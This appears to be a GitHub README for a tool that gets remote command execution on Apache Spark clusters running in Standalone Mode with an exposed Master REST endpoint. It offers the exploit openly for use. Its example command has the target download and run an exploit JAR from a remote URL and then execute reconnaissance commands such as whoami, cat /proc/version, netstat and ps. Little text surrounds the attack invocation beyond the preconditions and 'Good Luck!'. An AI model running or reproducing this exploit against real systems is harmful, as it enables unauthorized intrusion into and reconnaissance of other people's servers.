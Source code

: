 # Remote Command Execution Over Spark

## Conditions
1. Spark is running on Standalone Mode.
2. REST URL of Master is accessible.

## How to use

```bash
./submit.sh spark_rest_url spark_version jar_url commands
```

### Example

```bash
./submit.sh \
1.1.1.1:6066 \
2.2.0 \
https://github.com/aRe00t/rce-over-spark/raw/master/Exploit.jar \
"whoami,w,cat /proc/version,ifconfig,route,df -h,free -m,netstat -nltp,ps auxf"
```

### Result
![](media/15133242895615.png)

![](media/15133243117653.png)

![](media/15133243161989.jpg)

Good Luck!

![](media/15133243206133.jpg)


